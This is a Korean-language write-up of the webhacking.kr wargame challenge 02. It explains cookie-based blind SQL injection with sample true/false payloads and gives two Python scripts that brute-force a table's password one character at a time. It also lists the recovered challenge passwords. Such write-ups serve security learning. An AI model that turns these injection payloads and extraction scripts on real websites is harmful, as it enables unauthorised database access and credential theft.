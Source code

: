 ================================================================================================================
[webhacking.kr] 02
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="time = '1 and 1=1'",arrowhead="normal"];
        step3 -> step2[label="Error Page",arrowhead="normal"];
        step4 -> step5[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
        step7 -> step6[label="Data Length",arrowhead="normal"];
        step8 -> step9[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];
        step11 -> step10[label="Data Extract",arrowhead="normal"];

    }

|

server -> DB 예측
================================================================================================================

- 해당 html 소스 내에 주석 처리된 부분에 time이 출력되는 것을 볼 수 있는데, 쿠키 값에 time이 설정되어 있는 것으로 보아 해당 쿠키 값이 페이지 상에 출력되는 것으로 추측됩니다.

.. code-block:: SQL
    
    SELECT * FROM tb_name where
    time=$_COOKIE['time']


|

COOKIE Injection
================================================================================================================

- Cookie 값 입력을 통해 True/False 여부를 확인합니다.

.. code-block:: console

    time = '1 and 1=1'  // True: <!--2070-01-01 09:00:01-->
    time = '1 and 1=2'  // False: <!--2070-01-01 09:00:00-->

|

- 테이블 명과 컬럼 명은 유추를 통해 확인할 수 있습니다.
- 테이블명: FreeB0aRd
- 컬럼명: password

|

and select
================================================================================================================

- 데이터 길이 확인: 9

.. code-block:: python

    import requests

    cookie = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
        "time":"1 and (select if(length(password)>8,1,0) from FreeB0aRd)"
    }
    url = "http://webhacking.kr/challenge/web/web-02/index.php"
    r = requests.get(url,cookies=cookie, verify=False)
       
    print r.content.split('<!--')[1].split('-->')[0]

|

and select
================================================================================================================

- 데이터 추출
- FreeB0aRd password : 7598522ae

.. code-block:: python

    import requests

    pw =""
    for i in range(1,10):
        for j in range(33,126):
            #print j
            cookie = {
                "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
                "time":"1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d" % (i,j)
            }

            url = "http://webhacking.kr/challenge/web/web-02/index.php"
            r = requests.get(url,cookies=cookie, verify=False)
            q = r.content.split('<!--')[1].split('-->')[0]
            if "09:00:01" in q:
                pw += chr(j)
                print pw
                break

    print pw

|

admin 패스워드 값 확인
================================================================================================================


- 확인된 패스워드를 패스워드가 걸려있는 게시판에 입력한 결과 하나의 다운로드 링크가 존재한다.
- 페이지에서 파일을 다운 받으면 __AdMiN__FiL2.zip 이라는 압축 파일이 존재하는데 해당 파일이 암호가 걸려있다.
- 해당 파일에 대한 패스워드는 admin 페이지에 존재하는 것으로 추측되며 admin 페이지 패스워드를 위와 같은 방식으로 찾는다.
- admin password: 0nly_admin

.. code-block:: html
    admin page

    Notice
    -관리자 패스워드가 유출되지 않게 조심하세요.
    -처음 사용하시는 분은 메뉴얼을 참고하세요.(메뉴얼 패스워드 : @dM1n__nnanual)


해당 패스워드로 압축 파일을 해제하면 인증 패스워드를 확인할 수 있다.
